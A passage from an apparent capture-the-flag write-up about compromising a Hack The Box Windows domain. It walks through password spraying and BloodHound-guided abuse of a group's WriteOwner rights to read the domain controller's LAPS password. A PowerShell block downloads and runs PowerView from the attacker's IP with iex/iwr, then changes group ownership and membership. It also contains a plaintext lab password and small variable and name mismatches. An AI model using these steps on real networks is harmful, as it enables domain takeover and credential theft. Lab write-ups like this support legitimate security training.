

This grants us four new passwords for the slack subdomain, however this isn't actually running so I attempt to authenticate to other accounts by password spraying with these.



The admin password works for the user JDgodd, but they aren't a local user on the system. I didn't see any other privesc vectors within the WinPEAS output, so I fired up BloodHound to map out the domain and see what permissions this account has.



It seems like JDGodd has WriteOwner permissions over the Core Staff group, which are able to ReadLAPSPassword on the DC. To exploit this, I use the abuse info under the WriteOwner privilege inside bloodhound. Basically, I just upload powerview.ps1 to the box which will let us add JDGodd to the Core Staff group via our shell as nikk37.

```
#Upload Powerview.ps1 to machine
iex(iwr http://10.10.14.36/powerview.ps1 -UseBasicParsing)

#Convert JDGodd's password to secure string
$paswd= ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force

#Create new credential with JDGodd
$cred= New-Object System.Management.Automation.PSCredential('streamio.htb\JDGodd', $pwd)

#Setting JDGodd as owner of core staff
Set-DomainObjectOwner -Identity 'Core Staff' -OwnerIdentity JDGodd -Cred $cred

#Granting GenericAll permissions to JDGodd
Add-DomainObjectAcl -TargetIdentity "Core Staff" -PrincipalIdentity JDGodd -Cred $cred

#Adding nikk37 to Core Staff group
Add-DomainGroupMember -Identity "Core Staff" -Members Nikk37 -cred $cred
```

After JDGodd is added to the Core Staff group with all permissions set, we can authenticate using the LDAP module on netexec to read the DC's password (changes upon machine startup).



Finally, we can Evil-WinRM onto the box once again as administrator and grab the final flag under Martin's desktop folder to complete the box. 



This was a very long box for me as enumerating Windows is not my forte at all. I enjoyed the initial foothold portion as connecting the debug parameter with the include payload was creative. I hope this was helpful to anyone following along or stuck like I was and happy hacking!
